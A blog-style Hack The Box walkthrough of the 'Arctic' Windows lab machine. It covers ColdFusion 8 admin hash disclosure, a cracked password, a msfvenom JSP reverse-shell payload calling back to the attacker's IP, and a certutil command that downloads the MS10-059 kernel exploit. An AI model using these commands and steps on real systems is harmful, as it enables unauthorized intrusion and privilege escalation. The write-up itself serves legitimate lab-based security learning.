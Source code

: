 ```yaml
---
layout: PostSimple
date: 2020-02-29
title:     "Hack The Box - Arctic"
tags: ['windows','easy','ms10-059']
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/1.png)

We are going to pwn Arctic from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/9>


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  unknown
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista (91%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (91%), Microsoft Windows Phone 7.5 or 8.0 (91%), Microsoft Windows 7 or Windows Server 2008 R2 (90%), Microsoft Windows Server 2008 R2 (90%), Microsoft Windows Server 2008 R2 or Windows 8.1 (90%), Microsoft Windows Server 2008 R2 SP1 (90%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (90%), Microsoft Windows 7 (90%), Microsoft Windows 7 Professional or Windows 8 (90%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

Nmap scan doesn't show whats in port ``8500`` so I started checking that, Which reveals a directory.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/2.png)

``/cfdocs/``<br/>
Some docs files, nothing useful.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/3.png)

``/CFIDE/``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/4.png)

Found an ``administrator`` over there and it leads to an login page. Which is ``ColdFusion8`` by Adobe.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/5.png)

Since we know the version we can start looking for exploits and I found this.

>https://www.exploit-db.com/exploits/14641

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/6.png)

I tried that payload in the url and it gave me a hash, It will be the admin's hash.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/7.png)

I used [CrackStation](https://crackstation.net/) to do this.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/8.png)

Logged in as admin `` happyday`` 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/10.png)

Now its time to get reverse shell, Under ``Debugging & Logging`` Category I found ``Scheduled Tasks``.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/11.png)


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/12.png)
It gives us an ability to download an file and store it in the box - ``Publish`` but we need to give the directory.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/13.png)

Since ColdFusion running as ``Java`` we need to create a reverse shell using ``jsp``.

> msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.31 LPORT=1234 -f raw > shell.jsp

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/14.png)

We need to upload it so, I started Python HTTP server.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/15.png)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/16.png)

Now where to store the script? I found the location of ``ColdFusion`` in ``Server Settings > Mappings``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/17.png)

Now its time to upload the shell!!
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/18.png)

Once uploaded I visited ``http://10.10.10.11:8500/CFIDE/`` is where the ``reverse shell`` is stored.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/19.png)

Started my listener and opened ``shell.jsp`` <br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/20.png)

Got User Shell and Flag!

## Privilege Escalation:

Like always when I get a shell I start with ``systeminfo`` <br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/21.png)

Where Hotfix(s): N/A which means the system is not updated so far.

>A hotfix or quick-fix engineering update is a single, cumulative package that includes information that is used to address a problem in a software product.

So we can try with [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

I Copied the ``systeminfo`` output to my machine as ``systeminfo.txt`` and start WIndows_Exploit_Suggester.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/22.png)
Since there is a lot of vulnerability, I started with ``MS10-059``.Searched for exploits and found this [Windows_kernel_exploit](https://github.com/egre55/windows-kernel-exploits)
This is the one we need.
> https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri

Uploaded the executable to the box 

> certutil.exe -urlcache -split -f http://10.10.14.31:8000/Chimichurri.exe Chimichurri.exe

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/23.png)

Started my Listener and got AUTHORITY

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/24.png)











